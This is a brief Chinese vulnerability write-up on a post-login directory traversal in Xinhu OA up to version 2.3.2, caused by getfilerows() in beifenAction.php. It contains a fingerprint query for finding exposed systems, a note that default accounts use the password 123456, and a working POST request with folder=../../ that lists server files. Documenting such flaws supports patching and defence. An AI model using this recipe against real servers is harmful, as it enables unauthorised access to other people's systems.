# 信呼OA beifenAction.php 后台目录遍历漏洞

## 漏洞描述

信呼OA beifenAction.php文件中调用了 getfilerows方法，导致了目录遍历漏洞，攻击者通过漏洞可以获取服务器上的文件信息

## 漏洞影响

```
信呼OA <= 2.3.2
```

## 网络测绘

```
app="信呼协同办公系统"
```

## 漏洞复现

登录页面

![image-20220520133147020](images/202205201331106.png)

其中默认存在几个用户存在弱口令 123456

![image-20220520133200310](images/202205201332409.png)

存在漏洞的文件为 `webmain/system/beifen/beifenAction.php`

![image-20220520133212813](images/202205201332896.png)

查看 `getfilerows()` 方法，在 `include/chajian/fileChajian.php`

![image-20220520133224646](images/202205201332744.png)

该方法遍历目录下的文件名并输出，登录后，发送请求包

```
POST /index.php?a=getdatssss&m=beifen&d=system&ajaxbool=true

folder=../../
```

![image-20220520133237936](images/202205201332997.png)